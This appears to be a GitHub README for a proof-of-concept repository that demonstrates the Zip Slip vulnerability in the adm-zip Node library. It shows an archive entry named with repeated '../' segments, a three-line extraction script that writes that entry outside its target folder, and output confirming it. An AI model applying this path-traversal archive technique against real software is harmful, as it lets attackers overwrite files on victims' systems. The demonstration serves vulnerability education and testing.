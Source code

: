 # zip-slip poc

This repo demonstrates the Zip Slip vulnerability using very few lines of code.  


## Exploit File

Inside the zipped folder we have two files, one is just named `good.txt` and the other has a ridiculous path traversal in its name.

```
Listing archive: zip-slip.zip

--
Path = zip-slip.zip
Type = zip
Physical Size = 545

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2018-04-15 13:04:29 .....           19           19  good.txt
2018-04-15 22:04:42 .....           20           20  ../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../tmp/evil.txt
------------------- ----- ------------ ------------  ------------------------
2018-04-15 22:04:42                 39           39  2 files

```


## How It Works

You can perform the exploit by running the application using the following commands:

```
npm install
node index.js
```

Inside of `index.js` there are only three lines of code (shown below). The sole purpose of this application is doing is taking the `zip-slip.zip` and extracting the files to the folder `/tmp/safe`. In fact, after you run the `node index.js` command, the application has been run and the exploit was executed.

```
var AdmZip = require('adm-zip');
var zip = new AdmZip("./zip-slip.zip");
zip.extractAllTo("/tmp/safe");
```

When extracting the `good.txt` file it is simply extracted to the `/tmp/safe` directory. However, when extracting the `evil.txt` the path traversal in the name actually extracts it _outside of the `/tmp/safe` directory!_


## Testing the Exploit

After running the application above, verifying it worked is simple.

```
$ ls -al /tmp/*
-rw-rw-rw-  1 user        wheel  20 Nov 14 00:16 /tmp/evil.txt

/tmp/safe:
total 8
drwxr-xr-x  3 user        wheel   96 Nov 14 00:16 .
drwxrwxrwt  6 root        wheel  192 Nov 14 00:16 ..
-rw-rw-rw-  1 user        wheel   19 Nov 14 00:16 good.txt
```
